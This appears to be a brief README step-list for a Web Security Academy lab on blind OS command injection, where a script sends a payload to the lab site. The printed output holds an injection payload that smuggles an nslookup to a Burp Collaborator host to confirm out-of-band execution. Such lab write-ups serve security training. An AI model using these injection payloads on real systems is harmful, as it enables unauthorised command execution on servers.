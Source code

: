 **Step 1** : Open `Burp Collaborator Client` and copy the subdomain.

**Step 2** : Run `script.py`. Eg:
```bash
python3 comoast.py https://ac401feb1e4e7675c0909bba005f00c7.web-security-academy.net/ 0gh58enmj0vxz279gzeagsoad1jr7g.burpcollaborator.net
```
Output:
```
b||nslookup 0gh58enmj0vxz279gzeagsoad1jr7g.burpcollaborator.net||
Poll now!!
```

**Step 3** : Go to Burp Collaborator, and press 'Poll now' to confirm that a DNS lookup occurred.
